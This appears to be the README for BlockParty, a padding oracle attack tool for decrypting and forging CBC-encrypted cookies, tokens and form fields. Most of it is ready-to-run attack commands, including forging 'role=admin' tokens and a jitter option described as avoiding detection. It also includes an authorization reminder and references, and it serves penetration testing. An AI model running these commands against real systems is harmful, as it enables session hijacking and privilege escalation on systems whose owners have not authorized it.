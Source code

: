 ![BlockParty Icon](blockparty-icon.png "BlockParty!!")

# BlockParty

BlockParty is a [Hachi](https://hdev.run)-integrated re-imagining of the classic PadBuster tool for performing padding oracle attacks on CBC-encrypted tokens such as cookies, URL parameters, or POST bodies. It is designed to be modern, fast, and simple to extend directly from Hachi projects.

---

## Quick Start

### Build

From your Hachi workspace:

```
hachi blockparty.hachi -build blockparty -cf "-O2 -lcurl"
```

* `blockparty` is the build target name.
* `-lcurl` links against libcurl for HTTP(S) requests.
* Do not define `BLOCKPARTY_STANDALONE` when building under Hachi.

---

### Run

Decrypt a cookie token:

```
./blockparty \
  "https://target/app" \
  "ENC" \
  16 \
  --cookies "session=ENC" \
  --usebody --tri-analyze --tui
```

Decrypt a URL parameter token:

```
./blockparty \
  "https://target/app?token=ENC" \
  "ENC" \
  0 \
  --usebody --tri-analyze --tui
```

Encrypt (forge) a plaintext:

```
./blockparty \
  "https://target/app" \
  "ENC" \
  16 \
  --cookies "session=ENC" \
  --mode encrypt --plaintext "role=admin"
```

---

## Recipes

### 1. Basic Cookie Decrypt

```
./blockparty "https://target/app" "ENC" 16 \
  --cookies "session=ENC" \
  --usebody --tri-analyze
```

### 2. Brute Force First Block

```
./blockparty "https://target/app" "ENC" 16 \
  --cookies "session=ENC" \
  --mode bruteforce --usebody --tri-analyze
```

### 3. Resume From Block 3

```
./blockparty "https://target/app" "ENC" 16 \
  --cookies "session=ENC" \
  --resume 3 --usebody --tri-analyze
```

### 4. Use Explicit Regex Signatures

```
./blockparty "https://target/app?token=ENC" "ENC" 16 \
  --sig-pad "BadPadding|Invalid padding" \
  --sig-app "Exception|Traceback" \
  --sig-valid "Welcome|OK"
```

### 5. Encrypt New Plaintext

```
./blockparty "https://target/app" "ENC" 16 \
  --cookies "session=ENC" \
  --mode encrypt --plaintext "user=alice&role=admin"
```

### 6. Disable URL-Encoding

```
./blockparty "https://target/app" "ENC" 16 \
  --cookies "token=ENC" \
  --noencode --usebody
```

---

## Troubleshooting

**Error: `encrypted sample length not divisible by blockSize`**

* The ciphertext is not aligned to the block size.
* Fixes: use the correct `BlockSize` (16 for AES, 8 for 3DES), add `--noiv` if the token lacks an IV, or set `BlockSize=0` for autodiscovery.

**Error: `sample not found in URL/POST/Cookies`**

* The sample string must appear literally in the request.
* Fixes: check for exact match, include it in cookies or POST data, or try `--noencode`.

**Error: `Unknown option: --flag`**

* An unsupported flag was used. Run with `--help` for all valid options.

**Error: `network error`**

* Target unreachable. Fixes: check URL, network, proxy settings, or TLS support in libcurl.

**Error: `block failed`**

* No valid oracle signature found. Fixes: supply regexes (`--sig-pad`, `--sig-app`, `--sig-valid`), enable `--tri-analyze`, or use `--usebody`.

---

## Common Recipes for Debugging

* **Suspect URL-encoding issues:** `--noencode`
* **Token missing IV:** `--noiv`
* **False positives:** add `--sig-pad`, `--sig-app`, `--sig-valid` with known patterns
* **Responses look identical:** `--usebody --veryverbose`
* **Unstable network:** `--rps 2 --jitter-ms 500`
* **Timing side channel:** `--timing`

---

## Real-World Scenarios

**Web Application Session Cookies**

```
./blockparty "https://app.local/home" "ENC" 16 \
  --cookies "SESSION=ENC" --usebody --tri-analyze
```

**API Tokens in Headers**

```
./blockparty "https://api.local/resource" "ENC" 16 \
  --headers "X-Auth::ENC" --usebody --tri-analyze
```

**SAML or JWT Wrappers**

```
./blockparty "https://idp.local/sso?token=ENC" "ENC" 0 \
  --usebody --tri-analyze --tui
```

**Hidden Fields in POST Requests**

```
./blockparty "https://shop.local/cart" "ENC" 16 \
  --post "cartId=ENC&item=42" --usebody --tri-analyze
```

**Legacy Systems Using 3DES**

```
./blockparty "https://legacy.local/pay" "ENC" 8 \
  --cookies "auth=ENC" --usebody --tri-analyze
```

---

## Safety and Ethics

* Use only on systems where you have explicit authorization.
* Padding oracle attacks generate heavy traffic and can impact target performance.
* Always test in staging environments when possible.
* Check program or bug bounty scope before attempting attacks.

---

## Performance Tuning

* **rps:** adjust request rate with `--rps`.
* **jitter-ms:** add random delay to avoid detection.
* **concurrency:** parallel workers for faster brute force.
* **retries:** tweak `--max-retries`, `--backoff-ms`, `--backoff-mult` for flaky targets.
* **logs:** use `--state` and `--jsonl` to resume and analyze runs.

---

## Extending the Tool

* Add custom encodings in `padsploit.hpp`.
* Modify request builder for SOAP, GraphQL, or custom formats.
* Swap out libcurl for other transports if needed.
* Script BlockParty inside larger Hachi workflows with `blockparty::run_cli(argc, argv)`.

---

## References and Learning

* Serge Vaudenay. *Security Flaws Induced by CBC Padding*. Eurocrypt 2002.
* Juliano Rizzo, Thai Duong. *Practical Padding Oracle Attacks*. 2010.
* OWASP. *OWASP Testing Guide*, section on Padding Oracle testing.
* Brian Holyfield. *PadBuster Tool*, Gotham Digital Science.
* Nadhem J. AlFardan, Kenneth G. Paterson. *Lucky Thirteen: Breaking the TLS and DTLS Record Protocols*. IEEE Symposium on Security and Privacy (S\&P), 2013.

